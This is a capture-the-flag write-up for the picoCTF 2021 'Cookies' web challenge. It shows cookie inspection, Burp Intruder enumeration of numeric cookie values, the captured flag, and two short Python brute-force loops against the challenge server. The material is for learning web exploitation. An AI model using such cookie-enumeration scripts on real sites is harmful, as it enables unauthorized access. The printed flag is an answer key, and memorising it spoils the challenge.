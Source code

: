 ### Cookies

Author: madStacks
#easy #web_exploitation #picoCTF2021 
#### Description

Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:64944/](http://mercury.picoctf.net:64944/)

##### Solution:
how to find cookies
![Cookies/web\_browser\_cookies.png](Cookies/web_browser_cookies.png)

change the value of cookies
![Cookies/changeing\_cookies\_value.png](Cookies/changeing_cookies_value.png)

now use burpsute to get the flag 
position setting
![Cookies/intruder\_attacking\_type.png](Cookies/intruder_attacking_type.png)

set payload to numbers
![Cookies/attacking\_payload.png](Cookies/attacking_payload.png)

and add grep match picoCTF{  to indentify flag
![Cookies/grep\_match\_setting.png](Cookies/grep_match_setting.png)
here is flag

![Cookies/Cookies/Cookies/Cookies/flag.png](flag.png)

flag is `picoCTF{3v3ry1_l0v3s_c00k135_cc9110ba}`
python code to get flag

```python
import requests

# Loop through a range of cookie values
for i in range(25):
    # Setting a different cookie value each time
    headers = {'Cookie': f'name={i}'}
    
    # Sending the GET request
    response = requests.get('http://mercury.picoctf.net:64944/check', headers=headers)
    
    # Printing the result for each cookie value
    print(f"Trying cookie name={i}")
    print(response.text)

    # Break the loop if the flag is found
    if 'picoCTF' in response.text:
        print("Flag found!")
        break
```

another python code
```python
#!/bin/python3
import requests

for i in range(25):
    # Show the current cookie being used
    print(f"Trying cookie value: {i}")
    
    cookie = 'name={}'.format(i)
    print(cookie)
    headers = {'Cookie': cookie}
    print(headers)
    # Make the request to the server
    r = requests.get('http://mercury.picoctf.net:64944/check', headers=headers)
    
    # Check if the response contains the flag
    if r.status_code == 200 and 'picoCTF' in r.text:
        print("Flag found!")
        print(r.text)
        break  # Exit loop once flag is found
    else:
        print(f"Status: {r.status_code}, No flag yet.")

```
